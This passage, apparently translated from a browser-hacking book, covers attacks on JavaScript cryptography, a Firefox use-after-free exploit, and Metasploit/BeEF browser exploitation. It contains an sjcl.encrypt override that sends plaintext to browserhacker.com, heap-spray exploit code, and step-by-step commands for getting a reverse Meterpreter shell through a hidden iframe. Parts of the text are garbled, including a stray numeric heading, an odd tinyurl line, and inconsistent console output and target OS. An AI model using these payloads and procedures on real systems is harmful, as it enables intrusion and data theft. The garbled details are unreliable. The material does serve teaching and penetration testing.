如果 Web 应用存在 XSS 漏洞，类似的攻击可以用于窃取敏感密钥。不过，由于密钥不存储在 Cookie 中，不会受到 HttpOnly 保护机制的影响。此外，无需担心超时问题，因为密钥不会失效。一旦你拥有密钥，所有加密数据都能被解密，任何数据都能被签名。

假设开发者将密钥隐藏（更准确地说是混淆），例如下面的 JavaScript 代码：

```
var key = String.fromCharCode(75 % 80 * 2 * 6 / 12);
```

在这个例子中，密钥是通过数学函数计算后转换为字符的。虽然这看起来很简单，但密钥的值在初始时并不明显。将这段代码粘贴到 Firebug 中，`key` 的值会显示为 `K`。在分析 JavaScript 代码时，类似的例子常见于需要先评估代码才能得到密钥的实现。

但等等！与其费力窃取密钥，不如直接利用目标浏览器中已存在的实现？

Vladimir Vorontsov 正是这样做的。他发现了一家远程银行系统，该系统依赖 JavaScript 对消息进行数字签名。Vorontsov 利用 XSS 漏洞，在用户认证后演示如何伪造任意文档的签名。这会导致任何处理该文档的系统错误地信任伪造的签名。

### 覆盖函数

如果对伪造签名已经不满足，几乎所有 JavaScript 对象都可以在作用域的控制下覆盖其函数。这意味着加载到 DOM 的任何脚本都可以覆盖执行加密的函数。

下面是一个使用 Stanford JavaScript Crypto Library（sjcl）演示如何覆盖函数的例子。打开 JavaScript 控制台并加载库的代码：

```
var sjcl_lib = document.createElement('script');
sjcl_lib.src = 
  "https://raw.github.com/bitwiseshiftleft/sjcl/master/sjcl.js";
document.getElementsByTagName('head')[0].appendChild(sjcl_lib);
```

加载完成后，使用以下代码测试加密函数：

```
sjcl.encrypt("password", "secret")
```

返回的数据结构包含密文（ct）以及加密过程中使用的其他参数。想不想拦截这个过程并窃取秘密？你可以做到。

如果 Web 应用存在 XSS 漏洞，就可以覆盖加密函数。记住 XSS 是互联网上最常见的漏洞之一，几乎所有应用都曾遭遇过。

如果任何内容提供方可以被控制，它们也可以提供另一种覆盖加密函数的途径。任何使用 JavaScript 加密的 Web 应用必须完全信任所有内容提供方，因为其中任何一个都可能窃取秘密和密钥。

下面的代码片段展示了如何透明地覆盖 `encrypt` 函数，并窃取秘密：

```
chained_encrypt = sjcl.encrypt
sjcl.encrypt = function (password, plaintext, params, rp) {
  var img = document.createElement("img"); 
  img.src = "http://browserhacker.com/?ch06secret=" + plaintext;
  document.head.appendChild(img);
  return chained_encrypt(password, plaintext, params, rp)
}

sjcl.encrypt("password", "secret")


这段代码将加密函数链接起来，使其仍然被调用。应用程序应感知到其操作方式没有任何差异。重要的是，在函数链中插入的新链接会在数据加密之前窃取秘密数据。随后，它会透明地将其发送到 `http://browserhacker.com` 以安全存储，然后再返回到原始程序流程。

## JavaScript 和堆利用

本节讨论现代浏览器的低级利用技术。本书不会深入探讨这些方法，但需要提供对绕过浏览器安全控制的技术的基本了解。现在系好安全帽，我们将深入探讨内存管理和 Use After Free (UAF) 利用的复杂性。

### 内存管理

应用程序使用的内存由底层操作系统管理。也就是说，应用程序并不直接访问物理内存。相反，操作系统使用虚拟内存的概念来强制执行进程之间的内存隔离，使得每个进程都似乎拥有完整的线性地址空间。每个进程都有用于存储和操作其数据的独立内存区域。这块内存主要分为堆（heap）、栈（stack）以及进程特定的模块和库。栈主要用于存储进程中函数的局部变量（以及其他数据），以及执行特定的元数据，如过程链接信息、函数帧、溢出寄存器等。堆用于存储进程在运行时动态分配的数据。所有现代应用都广泛使用动态内存分配或管理，因为合理使用可以提升性能。

浏览器利用修改内存的方式，使执行流向攻击者有利。与安全行业的大多数领域一样，内存管理中的防御措施（如 ASLR、DEP、SafeSEH、堆 Cookie）与利用技术之间形成了一场军备竞赛。

你的目标是利用你掌控的功能来修改和结构化内存，从而在浏览器中实现利用。其中最有效的方法之一是使用 JavaScript。Alexander Sotirov 在其论文 “Heap Feng Shui with JavaScript” 中发表了组织内存的初步方法。该工作针对 Internet Explorer。然而，下面的示例专注于 Firefox。

### Firefox 与 jemalloc

内存管理器（分配器）负责管理堆所分配的虚拟内存，因此也被称为堆管理器或分配器。操作系统提供的内存管理器向所有应用程序公开，通过 malloc 或其他系统等效函数。然而，大型且复杂的应用程序（如浏览器）通常在操作系统的 malloc 之上实现自己的内存管理器。具体来说，这些应用使用 malloc 向操作系统请求大块内存，然后使用自己的内存管理实现来管理这些内存。这样做是为了获得更好的性能，因为应用程序比通用的操作系统分配器更清楚其动态内存需求。

jemalloc 是一种这样的内存分配器实现。jemalloc 最初于 2005 年诞生，随后进入 FreeBSD。相较于传统的 malloc 方法，jemalloc 在并发和可扩展性性能方面有所提升，这得益于其对数据检索方式的优化。因此，jemalloc 被广泛用于著名的项目，包括 Firefox。

Firefox 在所有支持平台（包括 Windows、Linux、OS X 和 Android）上都使用 jemalloc 进行动态内存管理。这意味着 jemalloc 堆用于内存分配，攻击者需要了解如何有利地影响它。

基于局部性原理 —  — 该原理指出，物体受其周围环境的影响，jemalloc 会尽力将内存分配放置在相互靠近的位置。具体而言，jemalloc 将内存划分为固定大小的块。在 Firefox 的情况下，这些块大小为 1MB。jemalloc 使用这些块来存储所有其他数据结构以及用户请求的内存。为减轻线程之间锁竞争，jemalloc 使用 arenas 来管理块。然而，Firefox 默认只有一个硬编码的 arena。

块进一步划分为 runs，负责处理 up to 2,048 字节的请求和分配。每个 run 跟踪这些大小的空闲和已用区域。Region 是用户分配（例如 malloc 调用）时返回的堆项。每个 run 关联一个 bin，bin 负责存储具有空闲区域的 run 树结构。每个 bin 关联一个大小类，管理该大小类的区域。这可以在 Figure 6-27 中可视化。

start figure 

**Figure 6-27:** Architecture of jemalloc


end figure 

### 为 Firefox 内存做好利用准备

在利用过程中，需要将 jemalloc 的内存排列成有利的状态。这种状态使得内存分配器的行为变得可预测且可靠，从而为你提供优势，可能导致假设的破坏。例如，在正常情况下，应用程序用户对内存管理器在进行动态分配时返回的内存空间一无所知。在开发攻击时，这种信息是必需的，并且必须可靠地可预测。

为了确认内存已被正确排列，会执行大量的内存分配操作。这种技术称为堆喷（heap spraying）。一旦你对连续的 run 拥有控制权，就需要释放每隔一个区域，从而在你试图操控的大小类中创建空洞或槽。最后一步是触发堆溢出漏洞，如下一节所示。

此方法大幅提升了对内存布局的控制力，并显著提高了利用成功的可靠性。

### Firefox 示例

2013 年初，Michal Luczaj 向 ZeroDay Initiative 报告了一种 Firefox 漏洞。该漏洞与 DOM 的 XMLSerializer 函数的滥用有关，可导致应用程序崩溃。这正是由于一个文档不完整且仅限 Firefox 的函数造成的。

遗憾的是，该函数缺乏足够的检查来确定何时被调用，因此存在漏洞。Patroklos Argyroudis 和 Chariton Karamitas 进行了进一步研究，发现了该漏洞的更多细节以及它如何导致任意代码执行。

发现的缺陷是 XMLSerializer 对象的 Use After Free (UAF) 漏洞。在 UAF 漏洞中，已分配的堆区域被其他对象引用。随后该区域被释放，但由于遗漏清理操作等原因，仍有引用该区域的对象继续存在，形成悬挂引用。如果你能够控制已释放的区域（例如通过堆喷），就可以通过悬挂引用实现任意代码执行。

利用 UAF XMLSerializer 漏洞需要多个步骤。第一阶段是反复分配大量字符串，直到堆扩展到 JavaScript 攻击中硬编码的高地址（假设该地址为 `0x117012000`）。


JavaScript 代码片段如下：

```javascript
/* 执行第一阶段堆喷（heap spray）时的分配大小和数量。 
* 第一阶段针对 `nsHTMLElement` 实例中 `mNextSibling` 指向的类别进行堆喷。 */
BIG_SPRAY_SZ = 65534;     
BIG_SPRAY_NUM = 1 << 11;
var buf = "";
var container_1 = [];

// 使用字符 `pad` 向左填充 `str`，直到长度达到 `length` 个字符。
function lpad(str, pad, length){
    while(str.length < length)
        str = pad + str;
    return str;
}

// 将双字（doubleword）转换为小端字节序的 Unicode 字符串。
function get_dwle(dw){
    wh = lpad(((dw >> 16) & 0xffff).toString(16), "0", 4);
    wl = lpad((dw & 0xffff).toString(16), "0", 4);

    escaped = "%u" + wl + "%u" + wh;
    return unescape(escaped);
}

// 将 64 位整数（quadword）转换为小端字节序的 Unicode 字符串 
*(由于精度限制，不能直接传入 64 位整数，我们改用两个双字处理)。 */
function get_qwle(dwh, dwl){
    return get_dwle(dwl) + get_dwle(dwh);
}

// 生成以 `rax` 为基础的 `callq *0x5f8(%rax)` 的指令
buf += get_qwle(0x117012000); // 将 64 位整数转为小端字节序的 Unicode 字符串

// 检查 `testb $0x8, 0x2c(%r14)` 的标志位
buf += unescape("%u8888%u8888%u8888%u8888");
buf += unescape("%u8888%u8888%u8888%u8888");

// `rip` 的值，应该是 `%rax + 0x5f8`
buf += get_qwle(0x4142434445464748);
buf = generate(buf, BIG_SPRAY_SZ);

for(i = 0; i < BIG_SPRAY_NUM; i++)
container_1[i] = buf.toLowerCase();
```

如果堆喷成功，地址 `0x117012000` 处的内存内容将如 Figure 6-28 所示的模式。

start figure 

**Figure 6-28:** 内存中的结果内容


end figure 

由于漏洞的特性，JavaScript 利用代码中的硬编码地址最终会进入 `rax` 寄存器，目标进程会因漏洞而执行 `call \*0x5f8($rax)`。由于 `rax` 的值可由攻击者通过 JavaScript 利用代码控制，前面的指令会将 Firefox 的执行流向攻击者控制的地址。堆喷 carefully 构造，使得地址 `0x117012000 + 0x5f8` 处的值为 `0x4142434445464748`，从而证明了对 Firefox 执行流的控制权。

在 exploit 的第二阶段，JavaScript 再次对堆进行 128 字节字符串的堆喷。当请求多个分配时，jemalloc 会尝试在内存中将它们连续放置。随后，`delete` 用于释放每个分配的另一半，导致内存状态如 Figure 6-29 所示的模式。

start figure 

**Figure 6-29:** 内存中的结果模式


end figure 

标记为 “Free” 的区域实际上并未真正释放，它们仅被标记为空闲，但并未真正释放。Firefox 的 JavaScript 引擎（SpiderMonkey）会在认为有必要时才回收它们。要强制其释放，需要触发 SpiderMonkey 的垃圾收集器（GC）。这可以通过导致堆分配激增来实现，从而迫使垃圾收集器清理未使用的区域。

所有这些操作的结果是，堆被精心准备好在前一阶段创建的 128 字节孔隙之间放置受控的堆区域。这样，后续的 128 字节分配请求大概率会落在刚刚创建的孔隙中。

第三阶段的 exploit 包括动态创建多个 HTML 元素，这些元素由 `HTMLUnknownElement` C++ 类（128 字节）支撑。C++ 类为所有 HTML 元素、JavaScript 对象以及其他浏览器构造提供支持，因为 Firefox、其 HTML 渲染器以及 JavaScript 引擎均实现于 C++。具有虚函数的 C++ 类也拥有虚函数表（vtable），其中包含指向对应方法的函数指针。这一点对你很重要，因为如果你能够腐蚀虚函数表，就可以将浏览器的执行流向你自己选择的代码转移。

如果一切按计划进行，这些区域将填充在前一阶段创建的孔隙中。确保并非所有孔隙都被占用是很重要的。

下面的 JavaScript 代码用于在序列化 DOM 树时修改其结构，从而触发脆弱性条件：

```javascript
  var s = new XMLSerializer();
  // 将会创建的会触发 UAF（未初始化使用）的 DOM 子元素数量。
  NUM_CHILDREN = 64;
  // 第二阶段堆喷时的分配数量
  // 该阶段针对 `HTMLElement` 实例进行堆喷。
  SMALL_SPRAY_NUM = 1 << 21;
  GC_TRIGGER_THRESHOLD = 100000;
  // 触发垃圾收集器。
  function trigger_gc()
  {
    var gc = [];
    for(i = 0; i < GC_TRIGGER_THRESHOLD; i++){
        gc[i] = new Array();
    }

    return gc;
  }

  var stream =
  {
    write: function()
    {
      // 移除子元素并触发垃圾收集器。这将在我们控制的 chunk 中创建一些空闲孔。
      for (i = 0; i < NUM_CHILDREN; i++)
      {
        parent.removeChild(children[i])
        delete children[i];
        children[i] = null;
      }

      trigger_gc();

      // 取得上述创建的空闲孔（`buf` 仍然保存所需数据）。
      for (i = 0; i < SMALL_SPRAY_NUM; i += 2)
        container_2[i] = buf.toLowerCase();
    }
  };

  s.serializeToStream(parent, stream, "UTF-8");
```

垃圾收集器被调用以释放相应的堆区域，并在前一阶段占用的内存上进行小规模堆喷，以重新分配之前由 `HTMLUnknownElement` 实例占用的内存区域。这将使你能够控制 `HTMLUnknownElement` 实例的虚函数表，从而实现任意代码执行。事实上，UAF 是在指向 `mNextSibling` 的 C++ 类上触发的。

这个漏洞的一个有趣的回应来自开发者在 Bugzilla 报告中的评论：“Argh, we expose serializeToStream to web :/”。这很可能会引导安全研究人员去寻找产品中开发者未意图包含的其他漏洞。

虽然这里提供的示例代码本身不具备自行执行的能力，但可以通过多种方式将 64 位指针（RIP）的值设置为指向内存中的其他代码，从而实现代码执行。注入的代码会根据被利用的平台而异。这时工具如 Metasploit 非常理想，因为它提供了为多种平台定制 exploit 的能力。你可以在 [`browserhacker.com`](https://browserhacker.com) 找到完整的 Proof of Concept 以及相关代码。

# 使用 Metasploit 获得 Shell

在谈论 exploit 时，Metasploit 是许多渗透测试人员首先想到的工具。Metasploit 是一个渗透测试框架。之所以称为框架，是因为它在渗透测试的每个阶段都设计了相应的特性。

对于 exploit 开发者，Metasploit 简化了创建可跨平台和系统使用的 exploit 的工作。框架提供了开发者所需的大部分功能，包括随机化设施、多种环境和系统的预装 shell、VNC 连接处理以及其他 payload 类型，这些都是 exploit 可能需要的。


-   [Metasploit 用户界面简化了执行漏洞利用的过程，为测试自己的系统提供了更简便的方法。无论用途如何，所有信息均免费提供，使各级人员都能了解漏洞是什么、影响是什么、工作原理、如何检测，以及拥有一个易于重复的测试位置。]

-   [Metasploit 提供用于发现和枚举的辅助模块，可让你：]

    -   找到易受影响的机器

    -   确定正在运行的服务

    -   枚举服务

    -   获取系统中协议的具体信息

    这些功能帮助你发现网络上的资源以及已发现系统的潜在脆弱性。尽管 Metasploit 具备发现功能，但它并不是一个专门的漏洞扫描器。不过，它可以从其他工具的漏洞扫描结果中消费数据，并将 CVE 与漏洞利用模块进行关联，从而轻松判断哪些模块可利用哪些漏洞。

-   [虽然上述功能强大，但你的目标是利用系统。下面的章节将介绍如何使用 Metasploit 对运行 Internet Explorer 8 的 Windows 7 系统进行浏览器攻击，最终在远程系统上获取 shell。]

## 开始使用 Metasploit

-   [如果你无法轻松获取 Metasploit，Kali Linux 发行版可从 [`www.kali.org/`](http://www.kali.org/) 获取。Kali 是一款标准的渗透测试发行版，默认已包含 Metasploit。Metasploit 几乎可以在任何运行 Ruby 的系统上运行，因此如果你有 Ruby 访问权限，就可以从 [`www.metasploit.com/`](http://www.metasploit.com/) 获取 Metasploit。]

-   [首先，使用命令 `msfconsole` 启动 Metasploit。输出应显示启动画面后的 `msf >` 提示符。Metasploit 加载完成后，你可以执行以下操作：]

    -   使用模块

    -   获取模块信息

    -   搜索模块

    -   查看模块信息

-   [要搜索所有针对 IE 8 的模块，输入 `search IE8`，如下所示：]

```
msf > search IE8
[!] Database not connected or cache not built, using slow search

Matching Modules
================

   Name       Disclosure Date          Rank       Description
   ----       ---------------          ----       -----------
   exploit/windows/browser/adobe_flashplayer_arrayindexing
              2012-06-21 00:00:00 UTC  great      Adobe Flash Player AVM
                                                  Verification Logic
                                                  Array Indexing Code
                                                  Execution
   exploit/windows/browser/ie_cgenericelement_uaf
              2013-05-03 00:00:00 UTC  good       MS13-038 Microsoft
                                                  Internet Explorer
                                                  CGenericElement
                                                  Object Use-After-Free
                                                  Vulnerability
 <snipped for brevity>
```

-   [要获取特定模块的详细信息，输入 `info exploit/windows/browser/ie_cgenericelement_uaf`，示例如下：]

```
msf> info exploit/windows/browser/ie_cgenericelement_uaf

       Name: MS13-038 Microsoft Internet Explorer CGenericElement Object
             Use-After-Free Vulnerability
     Module: exploit/windows/browser/ie_cgenericelement_uaf
    Version: 0
   Platform: Windows
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Good
 <snipped for brevity>
```

-   [模块按其上下文排序，例如此处为针对浏览器的 Windows  exploit，名称为 ie_cgenericelement_uaf。]

-   [在浏览器已被 BeEF Hook 且你已完成浏览器指纹识别后，第一步是选择最适合目标的 Metasploit exploit。本例中，目标为运行 IE 8 的 Windows 7 系统。Hook 后，可在 BeEF 的 Details 标签页中查看自动识别的浏览器及操作系统信息（如图 6-30 所示）。]

 start figure 

**Figure 6-30:** Hooked browser details


 end figure 

-   [可以看到浏览器被识别为运行在 Windows 7 32 位架构上的 IE 8。通过浏览 Category 标签，可看到 Flash 和 Java 已安装。这些信息在 BeEF Hook 初始化时自动获取。BeEF 通过 Java（如果未检测到 Java，则需采取其他措施）来分析 Hooked 浏览器的底层操作系统信息。]

-   [首选方式是选择针对目标平台的近期漏洞并针对其进行利用，而不是直接对系统发起全面攻击，从而降低被检测的风险。BeEF 使用流量灯系统标记哪些 exploit 更可能成功：]

    -   Green 表示该模块应能在不通知用户的情况下成功

    -   Yellow 表示该模块可能会触发用户警报

    -   Red 表示该 exploit 不太可能成功

    -   Gray 表示该 exploit 尚未在目标配置上验证

## 执行单个 exploit

-   [在确定要使用的 exploit 后，下一步是启动 Metasploit 的 Web 服务器，并通过 BeEF 将目标浏览器指向该监听端口。]

-   [针对浏览器的 exploit，Metasploit 会启动一个 Web 服务器以接受浏览器请求。该服务器支持多个端点（URI Path），因此同一 Metasploit 实例可在单一网络端口上提供多个 exploit，无需为每个 exploit 单独启动服务器。选择端口时需考虑目标网络的代理或防火墙过滤情况：]

    -   若目标流量可能经过代理或受非标准端口过滤限制，建议使用 80 或 443 端口，因为这两个端口通常能够绕过 egress filtering。

    -   若存在基于代理的 AV 检测，80 端口流量可能被阻断，而 443 端口可能直接绕过代理。

-   [在 msfconsole 中，启用 `windows/browser/ie_cgenericelement_uaf` 并执行 `show options` 可查看需配置的选项（如图 6-31 所示）。]

 start figure 

**Figure 6-31:** Meterpreter console


 end figure 

-   [若需指定服务器绑定的 IP 地址，需修改 `SRVHOST` 变量；否则只需设置 `SRVPORT`、`URI PATH` 和 `payload` 变量。示例命令如下：]

```
set URIPATH /single
set SRVPORT 80
show options
show targets
set payload windows/meterpreter/reverse_tcp
show options
```


-   [将路径设置为 `/single` 并让服务器监听 80 端口。您有多种负载选项，可通过输入 `show payloads` 查看。其中常用的负载之一是 meterpreter 负载。该负载是渗透测试专用的专用 shell，具有许多额外功能以便在后期利用时使用。Meterpreter 有两个主要子选项：绑定 shell 和反向 shell。

-   绑定 shell 在目标系统上创建一个监听器。一旦监听器启动，选择的 shell 类型将被附加到端口上。当您访问该端口时，连接会建立，您将获得 shell 访问。

-   此过程会带来两个潜在问题。第一个问题是主机位于 NAT 设备或防火墙后面。在这种情况下，即使端口在监听，您也无法连接到远程端口。

-   第二个问题是端口打开后，必须是您第一个连接到它的攻击者。理想情况下，您是最先到达该端口的人，但如果有人先到，您就为别人提供了 shell。虽然这听起来不太可能，但内部网络的定期漏洞扫描过程可能会先到达它。虽然漏洞扫描工具不知道如何使用该 shell，但它会连接并断开连接，导致您的 exploit 白费。

-   另一种可用的 shell 是反向 shell。反向 shell 也有自己的挑战。反向 shell 设计用于连接回您，前提是您的 IP 地址可路由。位于 NAT 和代理后面的主机更容易向 Internet 上的主机发起连接，这正是反向 shell 设计的主要场景。

-   当代理是网络唯一出站点时，反向 shell 可能会带来挑战。幸运的是，Metasploit 有两种专为代理设计的负载类型：http 和 https meterpreter 负载（通过目标的代理服务器进行通信）。

-   基于此信息，您需要选择最适合您的方案。以下示例使用直接连接到主机的方式，因此采用反向 shell：

```
set payload windows/meterpreter/reverse_tcp
show options
---SNIP---
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique: seh, thread,
                                        process, none
   LHOST                      yes       The listen address
   LPORT     4444             yes       The listen port
```

-   选择 meterpreter reverse TCP shell 后，会出现三个新选项：EXITFUNC、LHOST 和 LPORT。EXITFUNC 有多种可能性，可以在当前应用程序中 spawn 一个新线程、spawn 一个新进程，或通过错误处理调用自身。选择哪种 EXITFUNC 取决于是否会导致应用程序崩溃。通常使用默认值是最佳选择。

-   对于 LHOST，输入您的 IP 地址。LPORT 应为 Internet 上大多数主机可访问的端口，例如 443（如果不确定连接情况），或选择您自定义的随机端口（如果没有端口被阻塞）：

```
msf exploit(ie_cgenericelement_uaf) > set LHOST browserhacker.com
LHOST => 192.168.1.132
msf exploit(ie_cgenericelement_uaf) > set LPORT 443
LPORT => 443
msf exploit(ie_cgenericelement_uaf ) > exploit
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.1.132:443 
[*] Using URL: http://0.0.0.0:80/single
[*]  Local IP: http://192.168.1.132:80/single
[*] Server started.
```

-   服务器现在正在运行并等待连接。最后一步是使用 BeEF 将浏览器指向 exploit。在 BeEF 中有多种方式实现，但最有效的方式之一是启动隐藏的 IFrame 以防失败。为此，在 Online Browsers 窗格中高亮浏览器，进入 Commands 标签页下的 “Misc” 文件夹，选择 “Create Invisible IFrame” 模块。输入 Metasploit 服务器的 URL（本例为 http://browserhacker.com:80/single），然后点击右下角的 Execute 按钮，IFrame 将在 hooked 浏览器中创建，如图 6-32 所示。

-   执行后几秒钟，BeEF 控制台会显示：

```
[19:37:20][*] Hooked browser [id:1, ip:192.168.1.16] 
  has been sent instructions from command module 
  [id:4, name:'Create Invisible Iframe']
[19:37:25][*] Hooked browser [id:1, ip:192.168.1.16] 
  has executed instructions from command module [id:4,
   name:'Create Invisible Iframe']
```

-   在 Metasploit 控制台中，可以看到 exploit 加载并向 Windows XP 主机发送，最终弹出一个 shell。可以使用 sysinfo 命令获取目标计算机的更多信息：

```
[*] 192.168.1.16     ie_cgenericelement_uaf - Requesting: /single
[*] 192.168.1.16     ie_cgenericelement_uaf - Target selected as: IE 8
on Windows XP SP3
[*] 192.168.1.16     ie_cgenericelement_uaf - Sending HTML...
[*] Sending stage (751104 bytes) to 192.168.1.16
[*] Meterpreter session 2 opened (192.168.1.132:3333 ->
192.168.1.16:1201) at 2013-06-08 19:42:51 -0400
meterpreter > sysinfo
Computer        : VM-1
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Meterpreter     : x86/win32
```

-   现在您已在受害系统上打开 shell，除非浏览器崩溃，否则网页仍应保持在 BeEF 中，从而为后续操作（如重新利用系统）提供机会。现在您已通过浏览器利用系统，可以在 Metasploit 中执行任何后期任务，包括提权、针对内部系统的攻击，或创建持久 backdoor，以便在机器重启后仍能重新连接。

## 使用 Browser Autopwn

有时很难找到能在浏览器上有效的正确 exploit。此时，可能需要抛弃细微差别，使用一系列快速交付的 exploit。Metasploit 的 Browser Autopwn 正是为此设计的。Browser Autopwn 是 Metasploit 的一个 meta-module，它会 rapid succession 地启动许多模块。它为不同的 URL 绑定模块，然后提供一个中央 URL，您可以将浏览器指向该 URL 以启动对目标的 exploit。

要启动 Autopwn，需要配置几个信息。第一是您希望 listener 和 URI 绑定的位置，即您将向目标发送的 URL。其次，需要设置 LHOST 选项，即反向 shell 的监听主机：

```
use auxiliary/server/browser_autopwn 
set LHOST 192.168.1.132
set SRVPORT 80
set URIPATH /
exploit
```


-   [Metasploit 命令集会选择 `Browser Autopwn` 辅助模块，设置 `LHOST`，并设置服务器端口以及 URI。此情况下，最终目标 URL 为 `http://browserhacker.com`，当用户访问该 URL 时，会依次重定向到已启动的每个漏洞利用。通过将用户一个一个重定向到不同的漏洞服务器，实现此目标。用户到达漏洞服务器后，漏洞即被交付；若成功，则会创建一个 shell。不同的漏洞依次执行，直至所有漏洞均被测试完毕。

-   当你输入 `exploit` 并按回车时，你会发现 `Metasploit` 需要一段时间来初始化。`Metasploit` 创建所有不同漏洞服务器所需的时间较长，通常需要五到十分钟才能启动全部模块。在系统提示服务器已就绪之前，向 Autopwn 发送请求只会在客户端出现错误。以下消息会在 Autopwn 就绪时显示：

```
[*] --- Done, found 57 exploit modules

[*] Using URL: http://0.0.0.0:80/
[*]  Local IP: http://192.168.1.132:80/
[*] Server started.
```

-   由于 Autopwn 启动时间较长，建议在利用过程早期启动它，然后将其作为备用漏洞技术。这样在你准备使用时，它已经加载完毕。它可以用于多种浏览器，因此一次性启动这些监听器可以在发现浏览器后立即将其指向 Autopwn 服务器，从而提高保持目标会话（保持目标在线）的机会。

## 使用 BeEF 与 Metasploit

-   将 BeEF 与 Metasploit 集成后，你可以在 BeEF 内直接调用 Metasploit 模块，对浏览器进行指纹识别并获取更多信息，然后再尝试利用。有时利用失败、浏览器崩溃，导致你失去对已目标化的浏览器的控制。此时，拥有更强的浏览器控制能力是有益的。BeEF 通过在内部直接调用 Metasploit 模块实现这一点。

-   要在 BeEF 中启用 Metasploit，请编辑 BeEF 主目录下的 `config.yaml` 文件，并将以下内容设置为 true：

```
extension:
    requester:
        enable: true
    proxy:
        enable: true
    metasploit:
        enable: true
    social_engineering: true
```

-   你可以在 `extensions/metasploit/config.yaml` 中找到更多配置选项。该文件包含连接 Metasploit 的设置，如主机、用户名和密码，若在网络环境下使用这些配置时需要全部更新。下面是可能的配置变量列表：

```
beef:
    extension:
        metasploit:
            name: 'Metasploit'
            enable: true
            host: "127.0.0.1"
            port: 55552
            user: "msf"
            pass: "abc123"
            uri: '/api'
            ssl: false
            ssl_version: 'SSLv3'
            ssl_verify: true
            callback_host: "127.0.0.1"
            autopwn_url: "autopwn"
            auto_msfrpcd: false
            auto_msfrpcd_timeout: 120
```

-   接下来，使用 `msfconsole` 启动 Metasploit。加载后，在 Metasploit 中启动 MSGRPC 接口。MSGRPC 接口允许外部应用发出远程命令，也是 Metasploit 与 BeEF 相互交互的方式。在 `msfconsole` 中执行以下命令加载接口：

```
msf > load msgrpc Pass=abc123
[*] MSGRPC Service:  127.0.0.1:55552 
[*] MSGRPC Username: msf
[*] MSGRPC Password: abc123
[*] Successfully loaded plugin: msgrpc
```

-   在此示例中，只需提供密码。不过，其他变量也可设置。`ServerHost` 与 `ServerPort` 设置 MSGRPC 服务器监听的 IP 和端口；`User` 与 `Pass` 设置登录用户名和密码；`URI` 可设置为不同的 MSGRPC 端点，以使服务器更难被发现。

-   加载 MSGRPC 后，在命令行启动 BeEF，控制台会显示类似以下内容，表明 Metasploit 已成功加载：

```
[ 0:20:32][*] Successful connection with Metasploit.
[ 0:20:34][*] Loaded 237 Metasploit exploits.
[ 0:20:34][*] BeEF is loading. Wait a few seconds...
[ 0:20:35][*] 11 extensions enabled.
[ 0:20:35][*] 410 modules enabled.
```

-   当 BeEF 成功连接到 Metasploit 服务器后，BeEF 能够自行执行 Metasploit 命令。这样可以在 BeEF 内远程管理漏洞服务器，只需进行 shell 操作即可。要在 BeEF 中执行漏洞，请在 BeEF 命令窗口的 “Metasploit” 标签页中选择已钩住的浏览器，然后进入 Metasploit 命令列表。该标签页包含已从 Metasploit 加载的所有漏洞，并会尽力提供每个漏洞的流量灯（traffic light）推荐。由于 BeEF 专注于浏览器，仅会显示浏览器相关的 Metasploit 模块。

-   例如，你可以选择 `MS13-038` —  — Microsoft Internet Explorer `CGenericElement` 对象使用后免费漏洞模块。随后输入监听端口、 `URIPATH`、Payload 及其信息，然后点击执行按钮（如图 6-33 所示）。BeEF 会将请求转发给 Metasploit，以便使用 MSGRPC 启动监听器。

 start figure 

**Figure 6-33:** 使用 BeEF 通过 Metasploit 目标化 MS13-038


 end figure 

-   经过几秒钟处理后，BeEF 会创建一个隐藏的 IFrame 并将浏览器导向生成的 URL。此后，Metasploit 完成其余的利用过程。若利用成功，Metasploit 控制台会显示新建立的 shell（如图 6-34 所示）。此方法适用于大多数浏览器相关的 Metasploit 模块。

 start figure 

**Figure 6-34:** 结果会话（Meterpreter session）


 end figure 

-   虽然可以在 BeEF 内启动 Browser Autopwn，但其启动时间较长，可能不如外部直接启动来得及时。因此，你可以使用隐藏的 IFrame 将浏览器指向已启动的 Autopwn 实例。基于此，建议在利用过程中尽早加载 Autopwn，以便在需要时随时可用。不过，请记住，针对性攻击相比于 Autopwn 模块，成功率更高且被检测的可能性更低。

# Summary

-   在本章中，你探索了多种方式来指纹识别、攻击和利用浏览器。从确定浏览器的操作系统、版本和语言，到窃取会话 Cookie，浏览器都是滥用的重要目标。

-   精准定位操作系统、浏览器版本等细节，使你能够针对特定浏览器及其功能进行攻击。一旦完成浏览器指纹识别，你就处于更有利的位置来发起攻击。

-   本章展示了 JavaScript 加密的缺陷，以及绕过公共实现的若干技术。你可以将这些可移植的方法应用于后续遇到的其他 JavaScript 加密实现，以展示相似的安全问题。


# 1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1
tinyurl.com/xxxtrapple2021


25. Ravishankar Borgaonkar. (2013). USSD 代码在移动网络中的错误使用。2013 年 7 月 10 日检索自 [`https://www.troopers.de/wp-content/uploads/2012/12/TROOPERS13-Dirty_use_of_USSD_codes_in_cellular-Ravi_Borgaonkor.pdf`](https://www.troopers.de/wp-content/uploads/2012/12/TROOPERS13-Dirty_use_of_USSD_codes_in_cellular-Ravi_Borgaonkor.pdf)

26. W3C. (2011). UriSchemes—W3C Wiki。2013 年 8 月 12 日检索自 [`http://www.w3.org/wiki/UriSchemes`](http://www.w3.org/wiki/UriSchemes)

27. Mozilla. (2013). Bug 873709—Firefox v23—Disable JavaScriptCheck Box Removed from Options/Preferences Applet。2013 年 8 月 12 日检索自 [`https://bugzilla.mozilla.org/show_bug.cgi?id=873709`](https://bugzilla.mozilla.org/show_bug.cgi?id=873709)

28. Matasano Security. (未知年份). JavaScript 加密被认为有害。2013 年 8 月 12 日检索自 [`http://www.matasano.com/articles/javascript-cryptography/`](http://www.matasano.com/articles/javascript-cryptography/)

29. Vladimir Vorontsov. (2013). @ONsec_Lab: XSS 如何击败数字签名。2013 年 7 月 20 日检索自 [`http://lab.onsec.ru/2013/04/how-xss-can-defeat-your-digital.html`](http://lab.onsec.ru/2013/04/how-xss-can-defeat-your-digital.html)

30. Emily Stark, Mike Hamburg, and Dan Boneh. (2009). Stanford Javascript Crypto Library。2013 年 8 月 12 日检索自 [`https://crypto.stanford.edu/sjcl/`](https://crypto.stanford.edu/sjcl/)

31. PaX Team. (2003). 地址空间布局随机化。2013 年 8 月 12 日检索自 [`http://pax.grsecurity.net/docs/aslr.txt`](http://pax.grsecurity.net/docs/aslr.txt)

